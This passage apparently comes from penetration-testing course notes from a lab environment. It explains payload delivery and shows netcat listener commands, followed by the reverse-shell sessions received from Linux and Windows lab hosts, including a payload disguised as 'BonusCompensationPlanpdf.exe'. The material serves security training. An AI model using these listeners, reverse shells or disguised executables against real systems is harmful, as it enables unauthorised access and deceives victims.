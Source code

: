 #### 4. Combined with Exploits

**Advantages:**
- Automated delivery
- Leverages existing vulnerabilities
- Part of broader attack chain

**Considerations:**
- Requires network access
- Depends on vulnerability existence
- May be detected by security tools

### Executing Payloads

#### Linux Payload Execution

**Setup listener:**
```bash
sudo nc -lvnp 443
```

**When payload executes:**
```bash
sudo nc -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.129.138.85 60892

env
PWD=/home/htb-student/Downloads
cd ..
ls
Desktop
Documents
Downloads
Music
Pictures
Public
Templates
Videos
```

#### Windows Payload Execution

**Setup listener:**
```bash
sudo nc -lvnp 443
```

**When payload executes:**
```bash
sudo nc -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.129.144.5 49679
Microsoft Windows [Version 10.0.18362.1256]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Users\htb-student\Downloads>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is DD25-26EB

 Directory of C:\Users\htb-student\Downloads

09/23/2021  10:26 AM    <DIR>          .
09/23/2021  10:26 AM    <DIR>          ..
09/23/2021  10:26 AM            73,802 BonusCompensationPlanpdf.exe
               1 File(s)         73,802 bytes
```